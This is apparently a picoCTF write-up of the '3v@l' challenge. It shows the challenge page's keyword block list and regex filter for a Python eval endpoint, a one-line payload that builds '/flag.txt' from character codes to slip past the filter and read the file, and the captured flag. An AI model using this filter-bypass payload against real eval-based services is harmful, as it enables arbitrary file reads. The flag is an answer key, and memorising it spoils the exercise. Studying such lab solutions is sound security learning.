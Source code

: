 # 3v@l
so first tried to run a lot of code used the synatx of cat or other various syntax but that failed so after that applied thw synatx of flag.txt in ascii as open with /  was restricted.

## Flag
picoCTF{D0nt_Use_Unsecure_f@nctions0c312090}

## Solve
- first i went to inspect the code in the give page and in the html file the forbinned pattern or the regex that we need to bypass was given 
- so we need that in mind and we can see a various things are blockef from the regex

```bash
<!DOCTYPE html>
<html lang="en">
<!--
    TODO
    ------------
    Secure python_flask eval execution by 
        1.blocking malcious keyword like os,eval,exec,bind,connect,python,socket,ls,cat,shell,bind
        2.Implementing regex: r'0x[0-9A-Fa-f]+|\\u[0-9A-Fa-f]{4}|%[0-9A-Fa-f]{2}|\.[A-Za-z0-9]{1,3}\b|[\\\/]|\.\.'
-->
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>Welcome to ABC bank </title>
    <link rel="stylesheet" href="/static/bootstrap.min.css">
    <link rel="stylesheet" href="/static/styles.css">
</head>
<body>
    <div class="container">
        <h1 class="mb-4 text-center">Bank-Loan Calculator</h1>
        <form method="post" action="/execute">
            <div class="form-group">
                <label for="code">Enter the formula:</label>
                <textarea id="code" name="code" class="form-control" rows="10" cols="50" placeholder="example: PRT*RATE*TIME(10000*23*12)" required></textarea>
            </div>
            <button type="submit" class="btn btn-primary">Execute</button>
        </form>
        <div class="footer-link mt-4">
            <a href="/">Go back</a>
        </div>
    </div>
</body>
</html>

```

- in this we can see that / is not allowed nor is \
- file extension
- hex codes were not allowd
- path traversing was not allowed also

so after so much blockage we we write the asci value of flag and try to use that to solve the question we can do the following that we use char join like in python to form the flag 
```bash
open(''.join([chr(x) for x in [47, 102, 108, 97, 103, 46, 116, 120, 116]])).read()
```

## REference 
None

